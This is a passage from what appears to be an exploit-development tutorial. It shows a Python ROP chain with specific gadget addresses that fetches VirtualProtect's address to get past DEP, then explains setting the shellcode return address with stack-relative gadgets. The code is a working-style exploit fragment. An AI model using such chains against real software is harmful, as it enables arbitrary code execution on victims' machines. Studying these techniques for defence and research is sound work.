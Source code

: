 ```python
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]

# 2. retrieve VirtualProtect VMA and move into ESI
# 62507120		VirtualProtect	KERNEL32
rop += struct.pack('<L', 0x625012f7) # pop ebp ret
rop += struct.pack('<L', 0x625012f6) # pop edi ; pop ebp ; ret
rop += struct.pack('<L', 0x6250103d) # pop ebx ; ret
rop += struct.pack('<L', 0x62507120) # VirtualProtect IAT
rop += struct.pack('<L', 0x62501e30) # mov eax,  [ebx] ; mov  [esp+0x00], eax ; call ebp
rop += struct.pack('<L', 0x42424242) # junk to be overwritten by [esp + 0x00]
# preserve VirtualProtect VMA in ESI
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501e3a) # mov esi, eax ; call edi
# * ESI now holds VirtualProtect VMA

# 3. get EBX to point to start of VirtualProtect skeleton
rop += struct.pack('<L', 0x6250219d) # mov eax, ecx ; ret
rop += struct.pack('<L', 0x62501a9d) # mov  [esp+0x00], eax ; call  [0x62507124]
rop += struct.pack('<L', 0x41414141) # junk will be overwritten by [esp + 0x00]

# 4. overwrite first placeholder with VirtualProtect VMA
rop += struct.pack('<L', 0x62502412) # mov eax, esi ; pop esi ; pop edi ; ret
rop += struct.pack('<L', 0x41414141) # junk for esi
rop += struct.pack('<L', 0x41414141) # junk for edi
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]  
# ! first placeholder overwritten with VirtualProtect VMA
```

### Overriding the second and third placeholders

After overwriting the initial `DWORD` in the 'skeleton' with the `VirtualProtect` address, we turn our focus to the second `DWORD`, which serves as the return address for the shellcode. This ensures that once the `VirtualProtect` call concludes, the stack will direct the application to jump to the shellcode's starting point. As you may have observed a common pattern throughout this writeup, accomplishing this is not as straightforward as it sounds.

While crafting a `ROP` chain, it's often difficult to gauge the exact number of gadgets required. Each gadget added nudges the shellcode an additional `0x04` bytes away from its original position. Due to this uncertainty, a placeholder is employed for the return address, typically set to `ESP + 0x104`. This provides a head start when the time comes to adjust the return address to align with the shellcode's starting location as only the offset that is added to the stack will need to be adjusted.

When dealing with arithmetic operations, especially addition, one might come across the following useful gadget. In our scenario, let's assume that `ECX` carries the number of bytes we wish to add, while `EAX` retains the previously preserved stack address:

```text
pop ecx ; ret        // Pop 0x104 into ECX
add ecx, eax ; ret 
// Now, ECX is 0x104 bytes further from the preserved ESP value
// Keep in mind: "add eax, ecx ; ret" is a valid alternative, but it modifies the preserved ESP value
```
